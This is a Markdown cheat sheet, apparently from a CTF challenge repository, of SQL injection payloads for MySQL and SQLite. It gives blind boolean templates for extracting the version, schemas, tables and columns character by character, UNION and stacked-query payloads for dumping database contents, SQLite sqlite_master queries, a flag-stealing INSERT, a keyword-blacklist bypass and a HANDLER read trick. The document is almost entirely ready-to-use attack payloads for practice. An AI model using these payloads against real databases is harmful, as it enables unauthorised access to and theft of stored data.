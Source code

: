 ## MySQL

### Comment
  - `#`
  - `-- `
  - `/*comment*/`

### Blind SQLi
  - Finding correct payload
      - `admin' and (1=0)#` *return false*
      - `admin' and (1=1)#` *return true*
        
  - Get version [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_version.py)
      - `admin' and (SELECT LENGTH(VERSION())={guess})#`
      - `admin' and (SELECT ASCII(SUBSTRING(VERSION(),1,1))={guess})#`

  - Get schemas [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_get_schemas.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.SCHEMATA)#`
      - `admin' and (SELECT LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {schema_index}),{name_index},1))={ord(guess)})#`
  
  - Get tables from schema [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_tables.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}')#`
      - `admin' and (SELECT LENGTH((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {table_index}),{name_index},1))={ord(guess)})#`
   
  - Get columns from table [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_columns.py)
      - `admin' and (SELECT COUNT(*)={guess} total_columns FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}')#`
      - `admin' and (SELECT LENGTH((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}' ORDER BY COLUMN_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}' ORDER BY COLUMN_NAME LIMIT 1 OFFSET {column_index}),{name_index},1))={ord(guess)})#`
   

### Union SQLi
- Extract number column

  - `'union select 1,2,3#`
  - `' order by 3#` 

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `';show databases;#`
  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `';show tables;#`
  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name
  
  ```
  ';show columns from <TABLE_NAME>;#
  ';show columns from `1919810931114514`;# if table name is number it must be queried with backtricks
  'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#
  ```

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`


## Tricks

  - Bypass blacklist words
    - `ad'||'min`

  - Read data from column name
    ```
    1'; handler <COLUMN_NAME> open as `a`; handler `a` read next;#
    ```
